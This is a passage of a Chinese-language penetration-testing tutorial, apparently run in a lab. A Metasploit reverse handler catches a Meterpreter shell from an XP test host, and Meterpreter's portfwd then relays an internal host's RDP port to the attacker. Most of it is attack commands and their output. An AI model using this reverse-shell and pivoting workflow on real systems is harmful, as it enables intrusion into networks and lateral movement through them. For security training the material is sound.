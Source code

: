    LPORT     444              yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target
msf exploit(handler) > run 
[*] Started reverse handler on 0.0.0.0:444 
[*] Starting the payload handler...</pre>
3.在xp-test1执行meter.exe，attacker获得 meterperter
<pre class="prettyprint lang-html prettyprinted">msf exploit(handler) > run 
[*] Started reverse handler on 0.0.0.0:444 
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.101.107
[*] Meterpreter session 1 opened (192.168.101.105:444 -> 192.168.101.107:48019) at 2015-01-11 12:49:11 +0800
meterpreter > ipconfig
Interface  1
============
Name         : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU          : 1520
IPv4 Address : 127.0.0.1
Interface  2
============
Name         : AMD PCNET Family PCI Ethernet Adapter - pencS
Hardware MAC : 00:0c:29:ed:cf:d0
MTU          : 1500
IPv4 Address : 10.1.1.128
IPv4 Netmask : 255.255.255.0</pre>
0×01 meterpreter基本隧道代理

好，现在已经有一个反弹回来的权限，下面介绍meterpreter隧道代理的几种方法

1.portfwd

portfwd 是meterpreter提供的一种基本的端口转发。porfwd可以反弹单个端口到本地，并且监听.使用方法如下:
<pre class="prettyprint lang-html prettyprinted">meterpreter > portfwd 
0 total local port forwards.
meterpreter > portfwd  -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
    -L <opt>  The local host to listen on (optional).
    -h        Help banner.
    -l <opt>  The local port to listen on.
    -p <opt>  The remote port to connect to.
    -r <opt>  The remote host to connect to.</pre>
使用实例介绍：

反弹10.1.1.129端口3389到本地2222并监听那么可以使用如下方法：
<pre class="prettyprint lang-html prettyprinted">meterpreter > portfwd add -l 2222 -r 10.1.1.129 -p 3389
[*] Local TCP relay created: 0.0.0.0:2222 <-> 10.1.1.129:3389
meterpreter > portfwd 
0: 0.0.0.0:2222 -> 10.1.1.129:3389
1 total local port forwards.</pre>
已经转发成功，下面来验证下：
<pre class="prettyprint lang-html prettyprinted">root@kali:~# netstat -an | grep "2222"
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN</pre>
可以看到已经成功监听2222端口
